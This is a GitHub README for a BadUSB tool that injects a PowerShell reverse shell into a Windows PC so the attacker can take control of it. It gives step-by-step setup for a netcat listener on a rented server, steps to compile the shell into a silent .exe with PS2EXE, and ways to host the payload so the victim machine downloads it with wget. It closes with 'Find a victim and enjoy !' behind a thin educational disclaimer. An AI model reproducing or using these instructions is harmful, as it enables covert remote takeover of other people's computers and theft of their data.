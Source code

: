 ## Original repo
https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector

# BadUSB_reverseShellInjector

# Warning ⚠️
Everything in this repository is **strictly** for educational purposes. Notice **I am not responsible** for stolen data. **You are responsible** for your actions using developed script for **BadUSB**.
# About ℹ️
This **script** allows you to take **control** of a **PC** with **reverse shell** attack.
### NB n°1 (for arduino BadUSB)
Sometimes, you will see something like this : 
``` 
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(173);
Keyboard.releaseAll(); 
```
This is only to write these characters : "@", "\\". But it depends on the computer's layout, so adapt these characters thanks to this [site](https://www.csee.umbc.edu/portal/help/theory/ascii.txt) and the sequence you actually use to wirte these characters with your keyboard. (or switch the keyboard layout to French).
### US Layout
For US layout you only have to replace by this for "\\" :
```
Keyboard.press(92);
Keyboard.releaseAll();
```
And by this for "@" :
```
Keyboard.press(64);
Keyboard.releaseAll();
```
### NB n°2
You can customize the **delay** according to the speed in which you plug the **BadUSB**.
### NB n°3
When you plug the BadUSB in a PC you  have to wait for the caps lock to flash to unplug it.
# Getting Started ✔️
## Requirments
1. Have a **BadUSB**.

2. Install **Arduino software** [here](https://www.arduino.cc/en/software) (if you use a BadUSB which is based on arduino);

3. [Have an ssh server](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#linode);

4. [Download PS2EXE](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Have a victim with **Windows OS** installed in his PC;
## Linode
1. Create an account [here](https://www.linode.com/);

2. Go to create, linode;

3. Select Ubuntu 18.04 LTS distribution;

4. Select the region closest to where you live;

5. Select shared CPU, Nanode 1GB;

6. Choose your server label and password;

7. Create linode;

8. Now open a terminal and type the ssh access command (ssh root@your_ssh_ip_adress);

9. You are now connected to your ssh server;

10. To make your ssh server always listening type this commands :
```
screen
nc -lnvp 87 -s your_ssh_ip_adress
CTRL + A
D
```
11. Your ssh server is now listening and you can exit;

12. To resume your listening screen, just type :
```
screen -r
```
## PS2EXE
1. Go in this [link](https://github.com/MScholtes/PS2EXE) and click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Start powershell as admin and type the following commands :
```
Set-Loction $env:HOMEPATH\Downloads\PS2EXE-master\Win-PS2EXE
Set-ExecutionPolicy Unrestricted -Force
Import-Module ps2exe
win-ps2exe
```

3. * Select source file (the file you want to convert).
   * Select target file (the directory where you want your file to be).
   * Select icon file (you can download some icons [here](https://iconarchive.com/)).
   * Check Supress output and Suppress error output.
   * Then click on compile button to finish the convertion.
## Install
1. Download this repository;

**Linux :**
```
git clone https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector
cd BadUSB_reverseShellInjector
```
**Windows :** Click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Replace LINK in [.txt](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.txt) at line 28 or in [.ino](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/BadUSB_reverseShellInjector.ino) at line 93;

3. Replace LINK [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/script.ps1) at line 8 and replce IP and PORT [here](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector/blob/main/reverseShell.ps1) at line 3;

4. [Convert reverseShell.ps1 file in .exe file](https://github.com/tuconnaisyouknow/BadUSB_reverseShellInjector#ps2exe);

5. Put the .ino or .txt file in your **BadUSB**;

5. Find a victim and enjoy !
## Requirments for victim PC
* Turn off caps lock.
* Switch the keyboard layout to French (or adapt the code according to your layout).
# How to set a link for wget the script ⬇️
## Dropbox
1. Create a dropbox account [here](https://www.dropbox.com);

2. Upload your file;

3. Copy the link of the file and change ?dl=0 by ?dl=1;

4. You will get a link like this : https://dropbox.com/s/link/YOURFILE?dl=1;

5. Now put this link in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## Github
1. Create a Github account [here](https://github.com/signup);

2. Create a public repository;

3. Upload your file;

4. Go to your file page and click on RAW button;

5. Copy the RAW page link and put it in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt) file;
## One Drive
1. Create a One Drive account [here](https://signup.live.com/signup);

2. Upload your file file;

3. Follow this [tutorial](https://mangolassi.it/topic/19276/how-to-configure-a-onedrive-file-for-use-with-wget)

4. Put the link you got in the [.ino](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.ino) or [.txt](https://github.com/tuconnaisyouknow/BadUSB_passStealer/blob/main/BadUSB_passStealer.txt)
